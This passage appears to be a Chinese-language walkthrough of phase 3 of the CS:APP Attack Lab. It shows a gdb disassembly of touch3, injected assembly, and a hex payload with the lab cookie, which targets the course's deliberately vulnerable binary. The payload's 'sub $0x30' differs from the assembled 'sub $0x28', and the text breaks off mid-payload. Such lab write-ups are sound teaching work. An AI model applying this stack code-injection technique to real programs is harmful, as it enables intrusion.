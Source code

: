 ```C
}
```
查看 `touch3()`函数所在位置
```shell
(gdb) disassemble  touch3
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    call   0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:    mov    $0x3,%edi
   0x0000000000401936 <+60>:    call   0x401c8d <validate>
   0x000000000040193b <+65>:    jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:    mov    %rbx,%rdx
   0x0000000000401940 <+70>:    mov    $0x403160,%esi
   0x0000000000401945 <+75>:    mov    $0x1,%edi
   0x000000000040194a <+80>:    mov    $0x0,%eax
   0x000000000040194f <+85>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:    mov    $0x3,%edi
   0x0000000000401959 <+95>:    call   0x401d4f <fail>
   0x000000000040195e <+100>:   mov    $0x0,%edi
   0x0000000000401963 <+105>:   call   0x400e40 <exit@plt>
End of assembler dump.
```
不妨以栈顶指针为sval,构造注入代码
```
Phase3:
	mov    $0x5561dc78, %rdi
	mov    $0x4018fa,%r8
	sub    $0x28,%rsp
	call   *%r8
```
跟Phase2的操作一样,查看机器指令:
```shell
Phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <Phase3>:
   0:   48 c7 c7 78 dc 61 55    mov    $0x5561dc78,%rdi
   7:   49 c7 c0 fa 18 40 00    mov    $0x4018fa,%r8
   e:   48 83 ec 28             sub    $0x28,%rsp
  12:   41 ff d0                call   *%r8
```
构造注入代码
```
/* Phase3 */
35 39 62 39 39 37 66 61 00          /* cookie:59b997fa */
48 c7 c7 78 dc 61 55                /* mov    $0x5561dc78,%rdi */
49 c7 c0 fa 18 40 00                /* mov    $0x4018fa,%r8 */
48 83 ec 30                         /* sub    $0x30,%rsp */
41 ff d0                            /* call   *%r8 */
/* 以上共30字节 */
ff ff ff ff ff ff ff ff ff ff 
```